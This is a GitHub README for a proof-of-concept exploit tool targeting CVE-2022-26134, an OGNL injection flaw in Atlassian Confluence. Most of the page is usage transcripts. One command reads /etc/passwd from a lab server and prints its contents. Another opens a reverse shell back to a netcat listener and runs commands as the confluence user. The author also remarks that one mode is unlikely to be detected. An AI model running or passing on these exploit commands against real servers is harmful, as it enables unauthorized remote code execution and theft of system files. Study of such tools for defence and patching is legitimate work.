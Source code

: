 # Through the Wire

Through the Wire is a proof of concept exploit for [CVE-2022-26134](), an OGNL injection vulnerability affecting Atlassian Confluence Server and Data Center versions <= 7.13.6 LTS and <= 7.18.0 "Latest". This was originally a zero-day exploited in-the-wild.

* [Vendor advisory](https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html)
* [Volexity "in-the-wild" write-up](https://www.volexity.com/blog/2022/06/02/zero-day-exploitation-of-atlassian-confluence/)

Through the Wire implements two different exploits. The reverse shell will shell out to `bash` and therefore be more likely to be detected. The file reader executes from memory and is therefore unlikely to be detected. The exploits *only* work on Linux installs of Confluence. They could work on Windows but I'm also lazy.

## Usage examples

### Read a file

```
albinolobster@ubuntu:~/through_the_wire$ python3 through_the_wire.py --rhost 10.0.0.28 --rport 8090 --lhost 10.0.0.2 --protocol http:// --read-file /etc/passwd

   _____ _                           _     
  /__   \ |__  _ __ ___  _   _  __ _| |__  
    / /\/ '_ \| '__/ _ \| | | |/ _` | '_ \ 
   / /  | | | | | | (_) | |_| | (_| | | | |
   \/   |_| |_|_|  \___/ \__,_|\__, |_| |_|
                               |___/       
   _____ _            __    __ _           
  /__   \ |__   ___  / / /\ \ (_)_ __ ___  
    / /\/ '_ \ / _ \ \ \/  \/ / | '__/ _ \ 
   / /  | | | |  __/  \  /\  /| | | |  __/ 
   \/   |_| |_|\___|   \/  \/ |_|_|  \___| 

                 jbaines-r7                
               CVE-2022-26134              
      "Spit my soul through the wire"    
                     🦞                   

[+] Forking a netcat listener
[+] Using /usr/bin/nc
[+] Generating a payload to read: /etc/passwd
[+] Sending expoit at http://10.0.0.28:8090/
Listening on 0.0.0.0 1270
Connection received on 10.0.0.28 39384
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:115::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:109:116:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:110:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:111:117:RealtimeKit,,,:/proc:/usr/sbin/nologin
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
cups-pk-helper:x:113:120:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
avahi:x:115:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:117:123::/var/lib/saned:/usr/sbin/nologin
nm-openvpn:x:118:124:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
hplip:x:119:7:HPLIP system user,,,:/run/hplip:/bin/false
whoopsie:x:120:125::/nonexistent:/bin/false
colord:x:121:126:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:122:127::/var/lib/geoclue:/usr/sbin/nologin
pulse:x:123:128:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gnome-initial-setup:x:124:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:125:130:Gnome Display Manager:/var/lib/gdm3:/bin/false
sssd:x:126:131:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
albinolobster:x:1000:1000:albinolobster,,,:/home/albinolobster:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:127:65534::/run/sshd:/usr/sbin/nologin
postgres:x:128:136:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
confluence:x:1001:1002:Atlassian Confluence:/home/confluence:/bin/sh
albinolobster@ubuntu:~/through_the_wire$ 
```

### Get a shell

```
albinolobster@ubuntu:~/through_the_wire$ python3 through_the_wire.py --rhost 10.0.0.28 --rport 8090 --lhost 10.0.0.2 --protocol http:// --reverse-shell

   _____ _                           _     
  /__   \ |__  _ __ ___  _   _  __ _| |__  
    / /\/ '_ \| '__/ _ \| | | |/ _` | '_ \ 
   / /  | | | | | | (_) | |_| | (_| | | | |
   \/   |_| |_|_|  \___/ \__,_|\__, |_| |_|
                               |___/       
   _____ _            __    __ _           
  /__   \ |__   ___  / / /\ \ (_)_ __ ___  
    / /\/ '_ \ / _ \ \ \/  \/ / | '__/ _ \ 
   / /  | | | |  __/  \  /\  /| | | |  __/ 
   \/   |_| |_|\___|   \/  \/ |_|_|  \___| 

                 jbaines-r7                
               CVE-2022-26134              
      "Spit my soul through the wire"    
                     🦞                   

[+] Forking a netcat listener
[+] Using /usr/bin/nc
[+] Generating a reverse shell payload
[+] Sending expoit at http://10.0.0.28:8090/
Listening on 0.0.0.0 1270
Connection received on 10.0.0.28 39386
bash: cannot set terminal process group (34470): Inappropriate ioctl for device
bash: no job control in this shell
bash: /root/.bashrc: Permission denied
confluence@ubuntu:/opt/atlassian/confluence/bin$ id
id
uid=1001(confluence) gid=1002(confluence) groups=1002(confluence)
confluence@ubuntu:/opt/atlassian/confluence/bin$ 
```

## Credit

* Greetz to APT31
* [Ye](https://www.youtube.com/watch?v=AE8y25CcE6s)

## PCAP || GFTO

* [confluence_two_pcap.zip](https://github.com/jbaines-r7/through_the_wire/files/8833875/confluence_two_pcap.zip)

